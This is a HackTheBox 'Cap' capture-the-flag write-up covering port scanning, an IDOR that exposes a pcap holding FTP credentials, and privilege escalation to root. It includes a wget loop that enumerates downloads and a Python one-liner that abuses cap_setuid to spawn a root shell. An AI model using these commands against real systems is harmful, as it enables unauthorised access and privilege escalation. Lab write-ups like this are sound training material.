

---
tags:
  - hack
  - linux
---
# HackTheBox: [Cap](https://app.hackthebox.com/machines/Cap)

## Enumeration

### `nmap`

#### TCP

- Target: `cap.htb 10.10.10.245`
- Command: `nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-cap.htb cap.htb`

##### 21/tcp-ftp `vsftpd` `3.0.3`

##### 80/tcp-http `gunicorn`

```text
  GetRequest:
    HTTP/1.0 200 OK
    Server: gunicorn
...
```

### Manual Enumeration

The server is hosting a security dashboard with functionality to download `pcap` files, view IP configuration, and display `netstat` output.



## Remote Code Execution

I spent a long time trying to exploit the capture mechanism by sending custom packets and probing for hidden `GET` parameters when it was actually just a simple IDOR exposing a previously created `pcap`. Thanks, [0xdf](https://0xdf.gitlab.io/2021/10/02/htb-cap.html).

```console
$ for i in {0..50} ; do wget 10.10.10.245/download/${i} -O ${i}.pcap 2>/dev/null || rm ${i}.pcap && ls -l ${i}.pcap 2>/dev/null; done
-rw-r--r-- 1 e e 9935 May 15  2021 0.pcap
^ RC=2

$ strings 0.pcap
...
220 (vsFTPd 3.0.3)
USER nathan
(su@
Jsv@
331 Please specify the password.
PASS Buck3...
(sw@
?sx@
230 Login successful.
...
```

## Privilege Escalation

From LinPeas:

```console
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

```console
nathan@cap:/dev/shm$ /usr/bin/python3.8 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'
root@cap:/dev/shm# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

## Notes

Look for the simple vectors first before burning time on more complicated ones.
